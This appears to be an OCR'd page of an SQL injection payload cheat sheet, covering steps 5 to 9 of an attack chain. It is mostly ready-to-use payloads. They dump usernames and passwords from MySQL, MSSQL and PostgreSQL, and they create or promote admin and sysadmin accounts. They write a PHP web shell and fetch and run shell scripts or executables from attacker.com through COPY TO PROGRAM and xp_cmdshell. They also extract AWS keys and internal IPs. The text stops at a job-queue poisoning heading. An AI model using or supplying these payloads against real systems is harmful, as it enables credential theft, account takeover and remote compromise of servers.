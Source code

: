 

### **PoC Payloads: Steps 5–9**

**Step 5: Data Exfiltration**

**MySQL:** ?id=1 UNION SELECT username, password FROM users-- -

**MSSQL:** ?id=1; SELECT name, pass FROM members--

**PostgreSQL:** ?id=1 UNION SELECT username || ':' || password FROM auth\_table--

**Blind SQLi (Time-Based - MySQL)**

&nbsp;	?id=1 AND IF(SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a', SLEEP(5), 0)-- -



**Step 6: Privilege Escalation**

Set Yourself as Admin

&nbsp;	'; UPDATE users SET role='admin' WHERE username='guest';--

Add a New Admin User (MySQL)

&nbsp;	'; INSERT INTO users (username, password, role) VALUES ('haxor', '123456', 'admin');--

MSSQL Escalation via Stacked Queries

&nbsp;	'; EXEC sp\_addlogin 'haxor', 'Password123!'; EXEC sp\_addsrvrolemember 'haxor', 'sysadmin';--



**Step 7: Remote Code Execution (RCE)**

MySQL – Write Web Shell

&nbsp;	?id=1 UNION SELECT "<?php system($\\\_GET\\\['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -

PostgreSQL – Command Execution

&nbsp;	COPY (SELECT '') TO PROGRAM 'curl http://attacker.com/shell.sh | bash';

MSSQL – Using xp\_cmdshell

&nbsp;	'; EXEC xp\_cmdshell 'powershell -Command "Invoke-WebRequest http://attacker.com/shell.exe -OutFile C:\\\\shell.exe \&\& Start-Process C:\\\\shell.exe"';--

Prerequisite: xp\_cmdshell must be enabled.



**Step 8: Lateral Movement**

Enumerate Internal Services (from logs)

&nbsp;	UNION SELECT DISTINCT ip\_address FROM logs WHERE url LIKE '%admin%'-- -

Extract AWS Keys

&nbsp;	SELECT config\_value FROM config WHERE config\_key LIKE '%aws%' OR config\_key LIKE '%s3%';

Poison Internal Job Queue (Redis-style)
